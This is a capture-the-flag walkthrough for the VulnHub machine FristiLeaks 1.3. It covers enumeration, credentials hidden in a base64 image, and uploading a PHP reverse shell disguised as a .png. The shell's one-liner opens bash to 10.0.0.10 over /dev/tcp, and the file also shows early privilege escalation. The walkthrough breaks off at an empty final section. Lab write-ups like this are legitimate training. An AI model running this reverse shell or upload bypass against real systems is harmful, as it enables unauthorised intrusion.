

# [FristiLeaks 1.3](https://www.vulnhub.com/entry/fristileaks-13,133/)


## Enum

- `nmap`:


- HTTP:


- `dirb`:


- **robots.txt**:


These three directories display the same image:


The common point between **cola**, **beer** and **sisi** is that they are 3 drinks. If we go backward and take a look at the home page we see the following message: _Keep calm and drink **Fristi**_.

So we can try the following url: `http://192.168.43.17/fristi/` and bingo, ther is an admin portal:


## Admin portal

If we check the sources, we can see an interesting comment written by `eezeepz`:


And just below, a base64 encoded string: 



We can decode it via `$ cat b64 | base64 -d > image.png` in command line. Then we got an image:


So we try the credentials `eezeepz` as a login and `keKkeKKeKKeKkEkkEk` as a password:


## Reverse shell


Let's try to upload the image we decoded previously:


Yes, it works!


Let's try to upload a [PHP tiny reverse shell](https://gist.github.com/rshipp/eee36684db07d234c1cc) file with **.png** extension:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
```

The file was uploaded, so we can use `nc` to get a shell:


## Privesc


In the home directory of the user eezeepz:


Ok so if we put some commands in a file called `runthis` in `/tmp`, they will be executed. I decided to change the permissions to access to `/home/admin` _(maybe I should have made a simple copy in `/tmp` to be more discreet)_:


## Road to root


